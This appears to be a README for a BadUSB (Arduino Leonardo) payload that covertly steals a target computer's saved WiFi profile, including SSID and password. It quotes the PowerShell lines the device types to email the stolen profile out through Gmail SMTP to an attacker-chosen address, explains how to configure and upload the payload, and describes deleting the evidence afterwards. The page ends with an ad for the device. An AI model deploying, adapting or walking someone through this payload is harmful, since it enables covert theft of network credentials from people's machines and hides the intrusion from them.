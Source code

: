 <h1>README!!</h1>
<h2>WIFI Profile capture and Email</h2>


<i>This payload Steals a targets WIFI Profile. I.E. SSID, Passowrd and Authentication type;
Saves the profile to a text file named "Profile.txt" on the targets desktop;
Then sends the contents of Profile.txt (which contains the targets wifi profile) via a gmail to an email address of your choosing.
After the WIFI Profile contents is emailed the Profile.txt file is delted and the payload leaves to trace on the targets machine of being executed.</i> 

<hr></hr>
**You must Edit the script to include a sender Gmails account creds as well as a recievers email address.

**Wifi Profile can only be sent via Gmail but can be received to any email.**  

You will need to edit the fields for Senders and receivers email credentials. .
For Senders Email go to line 101 or find this line 

<i><b> Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('CHANGE_THIS_GMAIL_ADDRESS@gmail.com', 'CHANGE_THIS_TO_GMAIL_PASSWORD')");</b></i> 

Here you will need to change the text that says <b><i>CHANGE_THIS_GMAIL_ADDRESS@gmail.com</i></b> to the gmail address the Wifi Profile is to be sent from.

Then Change the text that says <i><b>CHANGE_THIS_TO_GMAIL_PASSWORD</b></i> to the corresponding password of the email address from above.

IE: <i><b>Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('johndoe.techjuvi@gmail.com', 'Password1234')")</b></i>

We will also need to specify a "from" email. Find this line of code 

<i><b>Keyboard.print("$ReportEmail.From = 'CHANGE_TO_GMAIL_ADDRESS'");</b></i> on line 109 and edit the text feild labeled
<i><b>CHANGE_TO_GMAIL_ADDRESS</b></i> to the same Gmail address from above (IE: senders Gmail).

The final change you'll need to make is to specify a Revievers Email. The line of code can be found on line 113 and looks like this: 

<i><b>Keyboard.print("$ReportEmail.To.Add('CHANGE_TO_Recievers_Email_ADDRESS')");</b></i>

Simply change the text that says <i><b>CHANGE_TO_Recievers_Email_ADDRESS</b></i> to the email address you want to recieve the Target's WIFI Profile .



<hr></hr>

To upload the Payload simply plug in your TECHJUVI BadUSB and open the sketch / .ino in the Arduino IDE. Make sure your board is set to Arduino Leonardo and the proper port is selected then click <i> verify</i> then <i>upload</i>.

<b><u>You can purchase a TECHJUVI BadUSB for only $9.99 by <a href="https://www.techjuvi.com/product/badusb/">clicking here!</a></u></b>






